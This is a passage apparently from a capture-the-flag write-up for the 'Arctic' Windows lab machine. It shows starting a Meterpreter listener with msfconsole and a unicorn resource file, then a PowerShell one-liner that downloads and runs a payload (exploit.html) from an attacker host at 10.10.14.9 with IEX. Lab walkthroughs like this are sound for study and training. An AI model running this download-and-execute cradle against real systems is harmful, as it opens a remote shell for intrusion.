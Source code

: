 ```sh
msfconsole -r unicorn.rc
```

it starts metapreter listenning 

![](/Windows/Windows-Easy/Arctic/Screenshots/exploit.png)


so we save the content of  `powershell_attack.txt` to a new file called the exploit.html and remove the powershell so that we can be able to make it executable by inline code

```sh
powershell "IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/exploit.html')"
```